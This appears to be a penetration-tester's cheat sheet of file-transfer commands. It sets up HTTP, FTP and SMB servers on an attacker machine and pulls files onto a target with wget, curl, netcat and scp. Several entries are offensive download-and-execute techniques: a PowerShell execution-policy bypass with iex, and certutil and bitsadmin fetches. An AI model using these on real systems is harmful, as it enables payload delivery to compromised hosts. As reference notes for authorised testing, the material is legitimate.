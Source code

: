 # File Transfer

| Command | Description |
|---------|-------------|
| `wget http://$IP/file -O /tmp/test.tmp` | Download a file using `wget` and save it as `/tmp/test.tmp`. |
| `curl http://$IP/file` | Download a file using `curl`. |
| `fetch http://$IP/file` | Download a file using `fetch`. |
| `nc $IP $port > outfile` | Netcat to transfer data to a file. |
| `nc -lnvp $port < infile` | Netcat to listen on a port and send data from a file. |
| `ftp -s:input.txt` | FTP command with a script file input. |
| `ftp $ip` | FTP connection to a specified IP. |
| `get $filename` | Download a file using FTP. |
| `sudo apt install python-pyftpdlib` | Install Python FTP library. |
| `sudo python -m pyftpdlib -p 21` | Start an FTP server on port 21. |
| `python -m SimpleHTTPServer 80` | Start a simple HTTP server on port 80 (Python 2.x). |
| `python -m http.server 80` | Start a simple HTTP server on port 80 (Python 3.x). |
| `curl -O http://$ip/putty.exe` | Download a file using `curl` and output to a file. |
| `python smbserver.py ata /root/share` | Start an SMB server with the specified share directory. |
| `[WIN+R] \\$ip` | Access the remote machine using SMB from Windows Run. |
| `apt install smbclient` | Install `smbclient` for SMB operations. |
| `smbclient -L $ip` | List shared resources on the remote SMB server. |
| `smbclient //$ip/ata` | Access a specific SMB share on the remote machine. |
| `(new-object System.Net.WebClient).DownloadFile('//$ip/putty.exe', 'd:\\data\\putty.exe')` | Download a file via SMB using PowerShell. |
| `bitsadmin /transfer job //example.com/path/putty.exe F:\\putty.exe` | Download a file via BITS in Windows. |
| `php -S 0.0.0.0:80` | Start a PHP server on port 80. |
| `scp $filename user@host:~/path_dir` | Securely copy a file to a remote server using SCP. |
| `scp $filename $username@$ip:~/` | Securely copy a file to a remote server using SCP. |
| `python -m pyftpdlib 21` | Start an FTP server on port 21 (attacker machine). |
| `ftp $ip` | FTP connection to a specified IP. |
| `bitsadmin /transfer download /priority normal http://$ip/file C:\\output\\path` | BITS download command for Windows 7/Server 2000+. |
| `powershell.exe -exec bypass -Command “& {iex((New-Object System.Net.WebClient).DownloadFile('http://$ip:$port/$filename','C:\\Users\\user\\AppData\\Local\\ack.exe'));}”` | Download a file and execute via PowerShell bypass. |
| `certutil -urlcache -split -f “http://$ip/$filename" $filename` | Use `certutil` to download and cache a file. |
| `echo $storageDir = $pwd > wget.ps1` | Create a PowerShell script to set the storage directory to the current working directory. |
| `echo $webclient = New-Object System.Net.WebClient >> wget.ps1` | Add to PowerShell script to initialize a WebClient. |
| `echo $url = "http://$ip/$filename" >> wget.ps1` | Add to PowerShell script to set the URL. |
| `echo $filename = "filename" >> wget.ps1` | Add to PowerShell script to define the filename. |
| `echo $webclient.DownloadFile($url,$filename) >> wget.ps1` | Add to PowerShell script to download the file. |
| `powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File $filename` | Execute the PowerShell script to download the file. |
